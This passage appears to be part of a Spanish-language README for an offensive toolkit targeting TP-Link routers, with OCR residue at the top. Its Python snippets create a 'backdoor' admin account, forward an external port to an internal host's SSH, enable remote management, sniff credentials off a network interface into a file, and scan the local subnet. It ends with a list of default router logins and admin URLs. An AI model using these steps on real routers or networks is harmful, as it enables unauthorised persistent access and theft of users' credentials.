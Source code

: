 ```python
    exploiter.create_admin_user("192.168.1.1", 80, "backdoor", "password123")
    
    # Configurar port forwarding
    exploiter.add_port_forward_rule("192.168.1.1", 80, 2222, "192.168.1.100", 22)
    
    # Habilitar gestión remota
    exploiter.enable_remote_management("192.168.1.1", 80, 8080)
```

### **2. Sniffing de Credenciales**
```python
from credential_sniffer import CredentialSniffer

# Crear sniffer
sniffer = CredentialSniffer("eth0")

# Iniciar sniffing
credentials = sniffer.start_sniffing(duration=300)

# Guardar credenciales
sniffer.save_credentials("captured_credentials.json")
```

### **3. Análisis de Red**
```python
from network_analyzer import NetworkAnalyzer

# Crear analizador
analyzer = NetworkAnalyzer()

# Obtener topología
topology = analyzer.get_network_topology()

# Descubrir hosts
hosts = analyzer.discover_network_hosts("192.168.1.0/24")
```

## 🔧 **CONFIGURACIÓN ESPECÍFICA PARA TP-LINK**

### **Credenciales por Defecto Comunes**
- `admin:admin`
- `admin:password`
- `admin:123456`
- `root:root`
- `root:password`

### **URLs de Acceso**
- `http://192.168.1.1/`
- `http://192.168.0.1/`
- `https://192.168.1.1/`
